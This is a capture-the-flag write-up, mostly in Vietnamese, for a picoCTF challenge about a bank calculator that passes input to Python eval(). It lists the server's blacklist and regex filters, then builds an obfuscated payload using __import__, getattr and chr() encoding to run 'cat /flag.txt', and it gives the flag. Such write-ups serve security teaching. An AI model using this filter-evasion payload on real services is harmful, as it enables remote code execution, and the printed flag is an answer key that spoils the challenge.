# Overview 
Category: [Web Exploitation]()

AUTHOR: Theoneste Byagutangaza

# Description
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?
Additional details will be available after launching your challenge instance.

# Solution
- Trang web ngân hàng sử dụng hàm eval() tính toán , tìm cách tận dụng hàm này để RCE

![](./image/2025-04-28_18-16.png)

- Thử với payload os :

![](./image/2025-04-28_18-17.png)

- Server đã thực hiện filter . Thật vậy a dev đã comment những gì filter ở mã nguồn 

![](./image/2025-04-28_18-20.png)

- Filter những từ : os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind 

- Regex mà hệ thống sử dụng:

```python
r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```

>0x[0-9A-Fa-f]+: Nhận diện các giá trị hex (ví dụ: 0xdeadbeef).

>\\\u[0-9A-Fa-f]{4}: Nhận diện mã Unicode (ví dụ: \u1234).

>%[0-9A-Fa-f]{2}: Nhận diện mã URL encoding (ví dụ: %20).

>\\.[A-Za-z0-9]{1,3}\b: Nhận diện các tên tệp hoặc phần mở rộng (ví dụ: .com, .py, .exe).

>[\\\\\\\/] : Nhận diện ký tự / hoặc \, dùng trong đường dẫn tệp.

>\\.\\. : Nhận diện chuỗi .., thường dùng trong tấn công Directory Traversal.

-  Ta sẽ sử dụng mô-đun subprocess mà không bị phát hiện bởi các danh sách đen (blacklist)
```python 
__import__('subprocess')
```

- Dựa vào hint : "You might need encoding or dynamic construction to bypass restrictions". Ta tránh việc gọi trực tiếp subprocess.check_output() bằng cách sử dụng getattr(), truy cập động hàm này.
```python
getattr(__import__('subprocess'), 'check_output')
```

- Mã hóa lệnh bằng cách sử dụng chr() khiến các bộ lọc không thể nhận diện chuỗi này.
```python
chr(99) + chr(97) + chr(116)  # Tạo ra "cat"
chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)  # Tạo ra "/flag.txt"
```

- Payload hoàn thiện :
```python
getattr(__import__('subprocess'), 'check_output')([chr(99)+chr(97)+chr(116), chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)])
```
- Payload được thực thi và thành công lấy được flag:

![](./image/2025-04-28_18-38.png)

>Flag : **picoCTF{D0nt_Use_Unsecure_f@nctions0efe84e3}**